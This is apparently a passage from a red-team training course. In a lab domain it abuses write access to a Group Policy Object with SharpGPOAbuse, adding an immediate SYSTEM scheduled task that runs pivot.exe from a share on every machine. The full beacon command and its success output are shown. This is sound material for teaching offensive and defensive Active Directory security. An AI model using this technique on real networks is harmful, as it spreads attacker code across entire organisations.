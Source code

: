 [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) allows a wider range of "abusive" configurations to be added to a GPO. It cannot create GPOs, so we must still do that with RSAT or modify one we already have write access to. In this example, we add an Immediate Scheduled Task to the PowerShell Logging GPO, which will execute as soon as it's applied.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "PowerShell Logging" is: {AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}
[+] Creating file \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```  

As all the machines in the domain refresh their GPOs (or if you do it manually), many Beacons you shall have!
![](https://rto-assets.s3.eu-west-2.amazonaws.com/group-policy/sharpgpoabuse.png)